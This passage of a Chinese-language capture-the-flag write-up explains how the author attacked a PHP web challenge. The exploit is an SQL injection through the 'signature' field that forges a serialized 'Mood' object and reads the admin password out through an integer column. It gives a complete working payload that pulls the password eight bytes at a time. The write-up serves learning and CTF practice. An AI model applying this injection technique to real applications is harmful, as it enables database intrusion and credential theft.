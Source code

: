 写注入payload的部分是在 `$mood`中,这是一个序列化后的`Mood`类,好像没法直接出数据，用盲注又太麻烦，但是因为mysql的insert可以一次插入多条数据：

```sql
insert into table (`username`,`password`) values ('user1','pass1'),('user2','pass2')
```

所以这里可以通过`$_POST['signature']`一直往后覆盖，把输出点放到下一条数据的的`$_POST['signature']`字段，但是问题来了，我不知道自己的`userid`,插入进去也看不到啊。。（因为我没发现竟然可以包含session，包含session之后就看到`userid`了，这是一种思路).下面是我当时的做法。

**我的做法**

我看了看代码之后，发现其实 `Mood`本身就有输出点的，在`views/index`页面:

```Php
echo htmlentities($data['data'][$i]['sig'])."<br><br>";
$mood = (int)$data['data'][$i]['mood']['mood'];
echo "<img src='img/$mood.gif'><br><br>";
echo "published ".$data['data'][$i]['subtime']."<br>";
```

`Mood`类的`mood`参数被直接输出到页面中了,但是需要注意的是进行了一个int类型的转换,如果可以伪造`Mood`类的`mood`属性就可以了。

```php
$mode = new Mood((int)"1","114.114.114.114");
$mode->data = "0";  // 把data设置为0，可以直观的从页面的publish time中看到注入的数据是否被成功反序列化
echo serialize($mode);
//O:4:"Mood":4:{s:4:"mood";i:1;s:2:"ip";s:15:"114.114.114.114";s:4:"date";i:1520912184;s:4:"data";s:1:"0";}
```

现在来解决整形的问题，因为在php中,最大的整形是8个字节，所以有32个字节的数据，分四次读出，每次8个字节，转化为10进制。

```php
php > echo dechex(PHP_INT_MAX);
7fffffffffffffff
```

最后注入的payload为：

```
signature=username`,concat(`O:4:"Mood":3:{s:4:"mood";i:`,(select conv(hex((select mid((select password from ctf_users where is_admin=1 ),1,8))),16,10)),`;s:2:"ip";s:15:"114.114.114.114";s:4:"date";s:1:"0";}`))#&mood=0
```

![](./img/1.png)

